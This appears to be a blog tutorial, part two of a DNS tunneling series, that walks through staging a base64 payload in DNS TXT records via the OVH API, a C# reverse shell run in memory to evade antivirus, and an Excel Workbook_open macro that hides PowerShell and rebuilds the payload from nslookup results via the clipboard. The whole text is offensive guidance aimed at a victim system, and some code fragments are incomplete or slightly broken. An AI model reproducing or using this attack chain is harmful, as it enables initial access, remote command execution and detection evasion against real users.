




We have previously work locally to understand the concept of DNS tunneling (DNS Tunneling P.1).
This second part of the DNS tunneling series will show how to exploit the DNS to open a reverse shell when the VBA macro is executed on the victim system. The issue in the previous part is that the domain name wasn’t reachable from the internet. The test was made locally. In this case, we will buy a domain from a domain registrar so that our domain is reachable by anyone sending a DNS query to our server.
So the first thing to do is to buy a domain on a domain registrar such as GoDaddy or OVH and configure the domain to store the payload inside.
As we know, we will store a big amount of string in the DNS server, but since that TXT records can only store 255 characters, we need to automate the task to create DNS entries.
To automate the creation of DNS entry, one classic choice is to play with the API.
OVH API
OVH has a documentation that explains how to use their API, and they suggest to install their library. For those people using python, installing their library will make the task easier. Here is the link for the OVH documentation in python (https://github.com/ovh/python-ovh).
Since that I want to stay on PowerShell, we will need to understand how the API works, and check what it returns after a request.
An authorization is needed before any API request. To get the right, we need to generate an application key, application SECRET, and customer key.
Those keys and secrets can be obtained in the following URL : https://www.ovh.com/auth/api/createToken
Then you will be asked to add the different rules that authorize your application to make an API request on a specific resource.
The API also has a console that let you try some requests and see the result in a graphic interface (https://api.ovh.com/console). Log in with your account, and set the authorization for the usage in the graphical interface.

Select the resource you want to take a look, for example I have chosen “/domain/zone/{zoneName}/record to get the id of my record which is necessary to get the information about the DNS record. As you can see on the screenshot below, the resource /domain/zone/{zoneName}/record/{id}, you need to get the “ID” to be able to get the object property.

The interesting part is not the result, but the raw request because we want to know what information we need to put in the header of our web request.

The API server wait a request that is composed with the following information in the header:
X-Ovh-Application
X-Ovh-Consumer
X-Ovh-Signature
X-Ovh-Timestamp
Using PowerShell, to make a web request, we can use Invoke-WebRequest. This cmdlet can have different parameters such as Method that takes GET or POST or PUT another webmethod. The parameter Headers is where X-Ovh-Application, X-Ovh-Consumer, X-Ovh-Signature and X-Ovh-Timestamp will be placed.
Content-type, you can either put in the header or directly in the parameter also called Content-Type.
Timestamp is UNIX time (epoch time).
According to the OVH API document, the signature is the SHA1 of the concatenation of application secret, customer key, request method, the query, body and timestamp and $1$ in the beginning of the string.
The URI is https://api.ovh.com/[RESOURCE]
Once we have all this information, we can send a web request to the resource. If that’s a valid request, the web status code is 200.
Here are the element we need to have for the web request:
We know the offensive capabilities when using .NET application. PowerShell can call C# binary by using reflection assembly. That’s the main reason we will build the reverse shell in C# in order to execute in memory and potentially avoid antivirus detection.
A reverse shell is when the victim system initiates an outgoing connection and establishes a shell session. If the attacking system initiates the connection, it would called a bind shell, a bind shell will be certainly blocked by the firewall or generate alert because the victim system is receiving a lot of incoming traffic from internet on a specific port. Also in many situations, the victim system is not publicly accessible, the public IP is provided by the Internet access provider and the public IP is usually shared with many private IP address. Those systems are NAT protected and a home address is usually NAT protected.
When the victim system executes a malware that instantiates a reverse shell with the attacker machine, it initiates an outgoing connection to the attacker command and control server. Most of firewall do not filter on outgoing traffic but incoming traffic. And if server listen on port 443, you can be sure that the firewall is not blocking this port otherwise the user will not be able to go on HTTPS webpage.
To establish a connection in C#, we are using the library System.Net.Sockets to create an object of the class TcpClient(). This class has a method called Connect($hostname, $port) to establish a connection to the IP address and the port.
using (var tcp = new TcpClient()) {
tcp.Connect(hostname, port);
}
PowerShell and C# are very similar. To send message to another system, a stream must be initialiazed where the message will go through, and any object from TcpClient() class has a method GetStream(), where you can use the function Write() to send message in that stream of the established connection. To read the message from the stream, you need a translator, and the class StreamReader($stream) fill exactly this position.
using (var stream = client.GetStream()) {
stream.Write(“Hello World”)
using (var streamReader = new StreamReader(stream)) {
string message = streamReader.ReadLine();
}
}
Now that the connection is setup, and we know how to send and receive message. Let’s think about what we should receive from the victim perspectives or what to send if we are attacking. Having a reverse shell means that we want to have a console and potentially executing shell command. Shell command usually has the following format : command arg1 arg2.
Therefore we need to split the message with space and indicate that the first element of the array is the command and the rest are the argument.
For every command that the attacker is entering, it will start a process in the victim machine. For example, if the attacker executes the command “whoami”, the victim machine will execute cmd /c “whoami” and send the response to the attacker. To send the response back to the attacker, the process must forward the standard output to the stream, therefore in the process information, the parameter startInfo.RedirectStandardOutput must be set to true. Creating a process in C# can be easily done with an object of the class Process() that is found in the library System.Diagnostic.
With the function StandardOutput.BaseStream.CopyTo(stream), when the process is writing on the standard output, it will also copy the output to the stream and the attacker system can receive the output on his console.
ProcessStartInfo startInfo = new ProcessStartInfo("cmd.exe" , "/c " + command + " " + string.Join(" ", arguments));
startInfo.WorkingDirectory = @"C:\";
startInfo.RedirectStandardError = true;
startInfo.RedirectStandardOutput = true;
Process process = new Process();
process.StartInfo = startInfo;
A VBA macro in a excel file as a entrypoint is a common way for attacker to perform the initial access to the victim system. Using a subroutine called Workbook_open(), the subroutine will automatically run when the workbook is opened and if the user has enabled to run macro.
The object WScript.Shell provides access to OS shell methods. Run() method allows to run an application using VBA. By default in Windows, PowerShell is in the environment path of every Windows system, therefore typing PowerShell.exe will execute powershell.exe on the victim system.
WindowsStyle is set to 0 to hide the windows
WaitOnReturn is set to true to complete the command before executing the rest of the command.
In Windows, a COM object (Component Object Model) is a system that authorizes an object to interact and communicate with another object such as a binary. The Windows Registry contains a set of keys that enables the system to do the mapping between the COM object and the CLSID (HKEY_CLASSES_ROOT\CLSID\{ID}). For example, the COM with the CLSID “1C3B4210-F441-11CE-B9EA-00AA006B1A69” is responsible for copy data to the clipboard, and has a reference to Microsoft.Vbe.Interop.Forms.dll

Piping the powershell command with clip.exe send the output of the PS command stored in arg to the input of the process clip.exe
Creating a COM object gives us access to the methods of the class. Since the COM object is linked to Microsoft.Vbe.Interop.Forms.dll, we have access to the class and it is possible to call the GetFromClipboard() method to get the value stored in the clipboard.
With CreateObject("New:{1C3B4210-F441-11CE-B9EA-00AA006B1A69}")
.GetFromClipboard
output_clipboard = .GetText(1)
End With
We can store this value of the clipboard in a variable with GetText().
The variable is storing the base64 payload from all the nslookup done previously. As expected, it is necessary to remove some tabulations, quotes, to make it as a real base64 value.